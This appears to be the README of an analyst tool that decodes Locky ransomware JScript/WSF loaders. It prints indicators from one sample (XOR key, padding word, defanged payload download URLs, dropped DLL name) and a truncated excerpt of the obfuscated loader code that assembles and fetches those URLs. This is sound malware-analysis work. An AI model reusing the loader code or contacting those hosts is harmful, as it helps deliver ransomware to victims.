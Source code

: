 # Locky

Source: https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/
Source:

Usage: python LockyExtractor.py --> path to the local JScript Locky file.

Goal: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.

For example, let’s take a look at this:

sample 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.


Padding word:

LICIZAX

XOR Key:

b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq

Payload URI: (*remove padding word and decode Base64): 

goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS

Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):

NqmXYsBdh[.]dll

Here is the relevant function right below the eval() one:

var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
